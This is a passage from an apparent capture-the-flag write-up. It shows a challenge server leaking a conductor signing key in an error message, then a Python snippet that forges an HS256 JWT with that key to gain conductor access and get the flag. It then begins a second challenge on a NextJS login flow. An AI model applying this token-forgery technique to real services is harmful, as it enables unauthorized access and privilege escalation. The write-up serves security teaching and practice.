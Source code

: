 ```json
{
  "message": "Sorry passenger, only conductors are allowed right now. Please sign your own tickets. \nhashed ô÷uÞIB\u0005BçÙ+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bRò\u001esÜxÉÄ\u0002Å´\u0012\\ä secret: a_boring_passenger_signing_key_?",
  "success": false
}
```

Look at that! We have now have the conductor's key (`conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e`). All we need to do now is craft one more JWT and sign it using our newly obtained conductor key :)

```python
key = 'conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e'
headers = {
    "kid": "129581926211651571912466741651878684928"
}

payload = {
    "type": "conductor",
}

jwt_token = jwt.encode(payload, key, headers=headers, algorithm='HS256')
s = requests.Session()
r = s.post(url, cookies={'access_token': jwt_token})
print(r.text)
```

And we get the flag!

## Log Action

> I keep trying to log in, but it's not working :'(

For this challenge, we are given a super minimal NextJS app with only four routes:

- Home
- Login
- Logout
- Admin

Taking a look at the authentication flow:

```
export const { auth, signIn, signOut } = NextAuth({
  ...authConfig,
  providers: [
    Credentials({
      async authorize(credentials) {
        const parsedCredentials = z
          .object({ username: z.string(), password: z.string() })
          .safeParse(credentials);

        if (parsedCredentials.success) {
          const { username, password } = parsedCredentials.data;
          // Using a one-time password is more secure
          if (username === "admin" && password === randomBytes(16).toString("hex")) {
            return {
              username: "admin",
            } as User;
          }
        }
        throw new CredentialsSignin;
      },
```